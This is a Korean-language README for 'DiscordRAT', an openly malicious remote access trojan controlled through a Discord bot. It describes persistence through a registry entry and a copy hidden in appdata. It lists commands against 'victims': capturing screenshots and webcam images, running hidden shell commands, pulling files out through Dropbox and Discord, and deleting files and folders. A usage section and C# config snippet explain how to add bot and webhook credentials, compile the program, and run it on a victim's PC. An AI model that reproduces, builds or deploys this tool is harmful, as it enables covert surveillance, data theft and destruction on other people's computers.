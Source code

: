 ![venom](https://capsule-render.vercel.app/api?type=venom&height=200&text=DiscordRAT&fontSize=70&color=0:8871e5,100:b678c4&stroke=b678c4)

Discord.NET 을 이용한 reverse shell
## How It Works
프로그램을 실행할시 [init](https://github.com/root1234567891234/Discrod_Rat/blob/master/AntiMalware/class/init.cs) 실행(레지스트리 등록 appdata에 악성코드 복사본 등록(injection))
이미 악성코드가 실행중이면 중단하고 아니라면 봇 작동 후
명령어가 들어올시 [Command.command()](https://github.com/root1234567891234/Discrod_Rat/blob/master/AntiMalware/class/search.cs) 실행

public 명령어입니다.
```
all 모든 피해자 목록 조회
all_screenshot 모든 피해자 화면 가져오기
all_camshot 모든 피해자 캠 가져오기
all_shell 모든 피해자에게 shell 명령어 실행
```
private 명령어입니다.
```
(피해자의 아이피) kill Discrod_RAT을 종료시킴
(피해자의 아이피) delet 모든 Discrod_RAT을 삭제
(피해자의 아이피) screenshot 피해자의 화면을 가져옵니다.
(피해자의 아이피) camshot 피해자의 캠을 가져옵니다.
(피해자의 아이피) open (파일경로) 피해자 컴퓨터 내부에있는 특정 파일을 엽니다. (shellexecute 사용)
(피해자의 아이피) messagebox (띄울 메시지) 피해자 컴퓨터에 메시지 박스를 띄웁니다.
(피해자의 아이피) messagebox_que (띄울 메시지) 피해자 컴퓨터에 메시지 박스를 띄웁니다.(Question 사용)
(피해자의 아이피) messagebox_error (띄울 메시지) 피해자 컴퓨터에 메시지 박스를 띄웁니다.(Error 사용)
(피해자의 아이피) dropbox_download (파일경로) dropbox api를 사용해 피해자 컴퓨터의 내부파일을 가져옵니다.(무료버전 사용시 최대 2GB크기 까지 가능)
(피해자의 아이피) dropbox_upload (파일경로) dropbox api를 사용해 피해자 컴퓨터에 파일을 업로드 시킵니다.(무료버전 사용시 최대 2GB크기 까지 가능)
(피해자의 아이피) deletdir (폴더경로) 디렉토리를 삭제합니다. (하위목록까지 전부삭제)
(피해자의 아이피) deletfile (파일경로) 파일을 삭제합니다.
(피해자의 아이피) dir (폴더경로) 디렉토리 내부의 파일목록을 조회합니다. cmd의 dir과 똑같음
(피해자의 아이피) shell (실행할 명령어) 피해자 컴퓨터에서 shell을 사용(콘솔창은 안뜸)
(피해자의 아이피) downloadfile (파일경로) discord attachments를 사용해서 파일 다운로드(최대 25MB까지 다운가능 니트로 사용시 더 큰파일도 가능)
(피해자의 아이피) uploadfile (파일경로) discord attachments를 사용해서 피해컴퓨터에 특정 파일 다운(최대 25MB까지 다운가능 니트로 사용시 더 큰파일도 가능)
```
## Usage
[필수값](https://github.com/root1234567891234/Discrod_Rat/blob/master/AntiMalware/class/value.cs)을 수정해 봇,후크와 연동한후 컴파일 그리고 피해자PC에서 실행시키세요
```C# 8
private static GET GET = new GET();
// 본 프로그램의 이름
public string filename = "";
// 실제 게임의 위치
public string path = "";
// 프로그램 버전
public string version = " | 2.23v";
// 디스코드 봇 토큰
public string bot_token = "";
// 웹훅링크
public string EndPoint =
@"";
// ip
public string ip = GET.ip();
// 드랍박스 연결
public DropboxClient dropbox_ = new DropboxClient(
                                      oauth2RefreshToken: "",
                                      appKey: "",
                                      appSecret: "");
// 웹에 post를 보내기위한 HttpClient선언
public HttpClient client_ = new HttpClient();
```
